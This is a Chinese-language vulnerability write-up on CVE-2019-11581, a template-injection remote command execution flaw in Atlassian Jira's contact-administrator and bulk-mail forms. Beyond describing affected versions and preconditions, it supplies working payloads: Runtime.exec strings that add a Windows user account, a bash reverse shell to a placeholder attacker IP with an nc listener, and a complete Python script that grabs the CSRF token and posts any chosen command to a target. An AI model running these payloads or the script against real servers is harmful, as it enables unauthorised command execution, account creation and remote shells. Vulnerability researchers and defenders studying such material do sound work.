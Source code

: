 （CVE-2019-11581）Atlassian Jira 远程命令执行漏洞
=================================================

一、漏洞简介
------------

此漏洞由于Atlassian Jira中的Atlassian Jira Server和Jira Data
Center模块存在模板注入，当"联系管理员表单"功能开启时，攻击者可以在表单插入java恶意代码,当服务端对传入数据进行解析时,会执行数据中插入的恶意代码,并执行其中的命令。**攻击者通过这种方式可以实现远程代码执行漏洞的利用，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作**，对服务器造成巨大的影响。

二、漏洞影响
------------

Atlassian Jira 4.4.xAtlassian Jira 5.x.xAtlassian Jira 6.x.xAtlassian Jira 7.0.xAtlassian Jira 7.1.xAtlassian Jira 7.2.xAtlassian Jira 7.3.xAtlassian Jira 7.4.xAtlassian Jira 7.5.xAtlassian Jira 7.6.x \< 7.6.14Atlassian Jira 7.7.xAtlassian Jira 7.8.xAtlassian Jira 7.9.xAtlassian Jira 7.10.xAtlassian Jira 7.11.xAtlassian Jira 7.12.xAtlassian Jira 7.13.x \< 7.13.5Atlassian Jira 8.0.x \< 8.0.3Atlassian Jira 8.1.x \< 8.1.2Atlassian Jira 8.2.x \< 8.2.3

三、复现过程
------------

### 漏洞分析

**1.利用前提条件：**

第一种，未授权代码执行利用条件：Jira已配置好SMTP服务器，且需开启"联系网站管理员表单"功能。（从WEB界面设计上看，实际上如果没配置SMTP服务器，无法开启此功能

第二种利用场景前提是拿到Jira管理员的权限，利用条件较难满足，这里主要分析第一种情况。原因在于atlassian-jira/WEB-INF/classes/com/atlassian/jira/web/action/user/ContactAdministrators
未对Subject（邮件主题）处进行过滤，用户传入的邮件主题被当作template（模板）指令执行。在任何一种情况下，成功利用此漏洞的攻击者都可在运行受影响版本的Jira
Server或Jira Data Center的系统上执行任意命令。

**2.以下两种url漏洞验证方式：**

第一种无需管理员账户权限：http://www.0-sec.org:8080[/secure/ContactAdministrators!default.jspa](http://ip:port/secure/ContactAdministrators!default.jspa)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId26.png)

第二种需管理员账户权限：http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId27.png)

### 漏洞复现

**1. 漏洞利用条件**

联系管理员处必须开启 （需要知道后台管理员账号密码）

**2.环境准备：**

Atlassian JIRAv7.13.0 (以该版本为例，该版本存在漏洞)下载地址：

https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe

安装过程不再描述（按照提示进行安装，先在官方注册一个账号然后拿到一个试用期序列号并进行安装），注意，到了邮件配置那一步经尽量选以后(默认就是)，然后进入后台配置。

**3.确认未登陆状态下漏洞的存在**

访问如下URL（无需管理员账户权限）：

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

如果提示如下图，这说明没有配置联系管理员是无法触发漏洞。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId29.png)

请登陆后台开启联系管理员，配置地址如下：

http://www.0-sec.org:8080/secure/admin/EditApplicationProperties!default.jspa

默认是关闭的，需要配置了STMP发信后才能开启，配置STMP的时候可以测试连接，服务器必须开25端口，不然不能发邮件，下图是开启成功

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId30.png)

**4.未登陆状态下触发漏洞**

访问

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId31.png)

在Subject填入payload，注意，我这里环境是windows机器，所以可以添加账号观察，Linux可以用反弹shell的代码等等,反正换成自己想执行的命令。

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk abc@ABC123 /add').waitFor()

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId32.png)

发送了后可能会等一会儿，因为要加入邮件队列。这时候再上服务器执行net
user查看，发现正是刚刚执行命令添加的账户。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId33.png)

**5. 登陆管理员账号触发漏洞**

登陆管理员账号，然后访问如下URL：

http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

填入payload，如下，注意执行命令添加账号的账户名

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk01 abc@ABC123 /add').waitFor()

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId34.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId35.png)

linux下可执行：

目标Jira系统可执行的POC

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://www.baidu.com').waitFor()
    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('bash -i >& /dev/tcp/攻击者IP/2333 0>&1').waitFor()

攻击者主机执行:nc -lvvp 2333

### poc

> scan

    #/usr/bin/python
    # -*- coding: utf8 -*-

    # 
    # the program intents to automate the process of exploiting CVE-2019-11581 During our engagments - quick and dirty
    # I will probably will add features to make it more easy.
    # Ths is some skeleton and probably things will not work on first run


    # Importing
    import requests
    import sys
    import argparse
    from bs4 import BeautifulSoup
    import cmd

    parser = argparse.ArgumentParser()
    parser.add_argument("domain", help="JIRA Instance")
    parser.add_argument("cmd", help="Command to run")
    args = parser.parse_args()

    #Some Debugging Globals
    http_proxy  = "http://127.0.0.1:8080"
    https_proxy = "https://127.0.0.1:8080"
    ftp_proxy   = "ftp://127.0.0.1:8080"
    #Proxy Dictionary
    proxyDict = { 
                  "http"  : http_proxy, 
                  "https" : https_proxy
                }
    headers = {'UserAgent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0'}


    def JiraScan(domain,cmd):
        #Filtering host
        domain = domain + '/secure/ContactAdministrators!default.jspa'
        #Checking if host is vulnerable by checking if specific string is present
        s = requests.Session()
        r = s.get(domain, proxies=proxyDict, verify=False)
        html_doc = r.content
        soup = BeautifulSoup(html_doc, 'lxml')
        
        notvuln = soup.findAll("div",{"class":"aui-message aui-message-warning warningd"})
        if notvuln:
            print "[-] Not Vulnerable"
        else:
            print "[+] Checking if Vulnerable"
            #In order to have valid request we need to handle JIRA CSRF Tokens
            #Extracting atl_token from form
            html_doc = r.content
            soup = BeautifulSoup(html_doc, 'lxml')
            data = soup.findAll(attrs={"name" : "atl_token"})
            print data
            #Returning Token value
            token = data[0]['value']
            print token
            #Replacing path
            domain= domain.replace('!default.jspa','.jspa')
            # body of post request
             #(),'subject':"",'details':",'atl_token': value,'Send':'Send'}
            payload = "$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('%s').waitFor()" % cmd
            qparams = (('from','JIRA@JIRA.com'),('subject',payload),('details',payload),('atl_token',token),('Send','Send'))
            
            #Final Payload
            attack = s.post(domain, headers = headers, data = qparams, proxies=proxyDict, verify=False)

    if __name__ == '__main__':
        JiraScan(args.domain,args.cmd)

参考链接
--------

> https://www.cnblogs.com/backlion/p/11608439.html
